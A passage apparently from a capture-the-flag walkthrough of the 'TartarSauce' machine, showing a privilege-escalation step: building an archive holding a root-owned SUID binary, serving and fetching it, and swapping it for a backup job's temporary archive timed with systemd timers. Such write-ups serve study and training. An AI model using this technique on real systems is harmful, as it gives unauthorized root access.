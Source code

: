 

    root@kali# mkdir -p  var/www.md
    root@kali# cp suid var/www.md/
    root@kali# chmod 6555 var/www.md/suid



Now make the archive. I'll make use of the `--owner` and `--group`
options to make sure it is owned by root (unnecessary, but a neat trick
if you want to add a file with a different owner/group):



    root@kali# tar zcvf suid.tar.gz var --owner=root --group=root
    var/
    var/www/
    var/www.md/
    var/www.md/suid



### Replace Archive

Use `python3 -m http.server 9000` to create a webserver on my local box,
and then get the archive with `wget`.

Then use `systemctl list-timers` to wait for when the job runs, and the
temporary archive is created. When it is, replace it with my archive.

Use `systemctl list-timers` to see when the archive will appear:



    onuma@TartarSauce:/var/tmp$ systemctl list-timers
    NEXT                         LEFT     LAST                         PASSED       UNIT                         ACTIVATES
    Sun 2018-10-21 14:05:40 EDT  2s left  Sun 2018-10-21 14:00:40 EDT  4min 57s ago backuperer.timer             backuperer.service
    Sun 2018-10-21 14:06:27 EDT  49s left Sat 2018-10-20 19:31:58 EDT  18h ago      apt-daily.timer              apt-daily.service
    Mon 2018-10-22 06:10:48 EDT  16h left Sun 2018-10-21 06:42:35 EDT  7h ago       apt-daily-upgrade.timer      apt-daily-upgrade.service
    Mon 2018-10-22 11:29:12 EDT  21h left Sun 2018-10-21 11:29:12 EDT  2h 36min ago systemd-tmpfiles-clean.timer systemd-tmpfiles-clean.service  



See the archive:



    onuma@TartarSauce:/var/tmp$ ls -la
    total 9172
    drwxrwxrwt  8 root  root     4096 Oct 21 14:05 .
    drwxr-xr-x 14 root  root     4096 Feb  9  2018 ..
    -rw-r--r--  1 onuma onuma 9355264 Oct 21 14:05 .8dc600473f3730872b2c52a44da6d0bd4efb2297
    -rw-r--r--  1 onuma onuma    2715 Oct 21  2018 suid.tar.gz
    drwx------  3 root  root     4096 Feb 17  2018 systemd-private-46248d8045bf434cba7dc7496b9776d4-systemd-timesyncd.service-en3PkS
    drwx------  3 root  root     4096 Feb 17  2018 systemd-private-7bbf46014a364159a9c6b4b5d58af33b-systemd-timesyncd.service-UnGYDQ
    drwx------  3 root  root     4096 Feb 15  2018 systemd-private-9214912da64b4f9cb0a1a78abd4b4412-systemd-timesyncd.service-bUTA2R
    drwx------  3 root  root     4096 Feb 15  2018 systemd-private-a3f6b992cd2d42b6aba8bc011dd4aa03-systemd-timesyncd.service-3oO5Td
    drwx------  3 root  root     4096 Oct 20 11:14 systemd-private-b120a3d973224fcfb7073b9bfabac416-systemd-timesyncd.service-f9rGuA
    drwx------  3 root  root     4096 Feb 15  2018 systemd-private-c11c7cccc82046a08ad1732e15efe497-systemd-timesyncd.service-QYRKER  
